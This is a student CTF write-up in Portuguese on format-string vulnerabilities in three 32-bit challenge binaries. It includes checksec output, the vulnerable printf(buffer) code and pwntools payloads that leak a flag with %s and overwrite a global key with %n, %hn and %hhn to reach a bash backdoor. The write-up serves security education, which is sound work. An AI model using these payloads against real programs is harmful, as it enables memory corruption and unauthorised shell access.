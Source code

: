 # CTF Semana #7 (Format string)

## Desafio 1

### Recolha de informação

Começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`), o código fonte (`main.c`) e um script em python (`exploit_example.py`).

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

No `main.c`, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers.


### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a flag:

<img src="../screenshots/ctf7/d1_flag.PNG" alt="flag">

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que injetasse o endereço de memória da flag e que desse print `%s`:

```py
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag1.PNG" alt="flag">



## Desafio 2

### Recolha de informação

Mais uma vez, começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`) e o código fonte (`main.c`) 

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

Tal como no desafio anterior, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers, nomeadamente o `%n`, de modo a modificarmos o valor da variável global `key` para `0xbeef` e, consequentemente, lançar uma bash.

```c
if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
} 
```

### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a key:

<img src="../screenshots/ctf7/d2_key.PNG" alt="key">

`0xbeef` tem o valor de **48879** em decimal, pelo que antes de `%n` teremos que escrever 48879 bytes. Sendo que o endereço da variável ocupa 4 bytes, ainda precisamos de 48875 bytes. 

Como o `buffer` apenas tem 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, sendo que precisamos de 4 (espaço de 1 endereço) + 48871 bytes:

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que alterasse o valor da `key` na memória:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag2.PNG" alt="flag">



## Desafio extra

### Recolha de informação e Reconhecimento da vulnerabilidade

Este desafio é muito semelhante ao desafio anterior, sendo que, desta vez, o endereço da variável `key` é `0x804b320`.

<img src="../screenshots/ctf7/d3_key.PNG" alt="key">

### Exploração da vulnerabilidade

#### Tentativa 1

Primeiramente, tentamos modificar o valor da variável global `key` usando o `%n`, tal como fizemos no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

No entanto, não foi possível obter o output esperado, pelo que `\x20` corresponde a um espaço em código ASCII, o que não permite a leitura total da string injetada.

#### Tentativa 2

Assim sendo, tentamos escrever para o endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:

<img src="../screenshots/ctf7/try2_1.PNG" alt="try">


```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Desta vez, a shell era de facto lançada, seguida imediatamente de um timeout, o que é justificado pelo elevado número de caracteres (mais de 12 milhões) escritos:

<img src="../screenshots/ctf7/try2.png" alt="try">

#### Tentativa 3

De modo a minimizar o número de caracteres escritos, optamos por usar os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

Ao executar o script, não foi possível lançar o terminal, na medida em que a string injetada ultrapassa os 32 bytes, espaço alocado ao `buffer`.

#### Tentativa 4

Por fim, usamos os format specifiers `%1$hhn` e `%2$hn` para poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

Ao executar o script, conseguimos obter a flag esperada:

<img src="../screenshots/ctf7/flag3.PNG" alt="flag3">



